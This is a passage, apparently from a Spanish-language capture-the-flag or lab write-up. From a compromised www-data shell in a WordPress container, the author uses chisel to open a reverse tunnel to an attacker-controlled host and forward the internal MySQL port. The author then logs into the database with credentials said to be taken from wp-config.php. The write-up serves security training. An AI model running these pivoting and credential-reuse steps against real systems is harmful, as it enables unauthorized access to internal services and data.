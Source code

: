 Iniciaremos `chisel` con la opción de servidor por un puerto que esté libre, en mi caso, el puerto `8000`

~~~ bash
chisel server -p 8000 --reverse 
2025/05/03 14:06:06 server: Reverse tunnelling enabled
2025/05/03 14:06:06 server: Fingerprint VHcpNzlwX/tNdDUh/6ytZmsXpOCy8/Ik/aCKzgCzzJE=
2025/05/03 14:06:06 server: Listening on http://0.0.0.0:8000
~~~

Nos conectaremos como cliente desde el contenedor al puerto que hemos escogido

~~~ bash
www-data@8e3a72b5e980:/var/www/html/wordpress$ chmod +x chisel
www-data@8e3a72b5e980:/var/www/html/wordpress$ ./chisel client 10.10.15.9:8000 R:127.0.0.1:3306:172.17.0.1:3306
2025/05/03 18:07:13 client: Connecting to ws://10.10.15.9:8000
2025/05/03 18:07:15 client: Connected (Latency 180.11053ms)
~~~

En nuestro servidor `chisel` debemos ver que se abre el túnel con el puerto `3306` de nuestra máquina que comunica con el puerto `3306` remoto

~~~ bash
chisel server -p 8000 --reverse

2025/05/03 14:06:06 server: Reverse tunnelling enabled
2025/05/03 14:06:06 server: Fingerprint VHcpNzlwX/tNdDUh/6ytZmsXpOCy8/Ik/aCKzgCzzJE=
2025/05/03 14:06:06 server: Listening on http://0.0.0.0:8000 proxy#R:127.0.0.1:3306=>172.17.0.1:3306: Listening
~~~


## MySQL Querying - Wordpress Database

Ahora podemos conectarnos a `mysql` utilizando las credenciales que extrajimos del archivo `wp-config.php`

~~~ bash
mysql -u wp_user -p'wp_password' -h 127.0.0.1
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 329
Server version: 8.0.32 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| wordpress          |
+--------------------+
3 rows in set (0.649 sec)
~~~
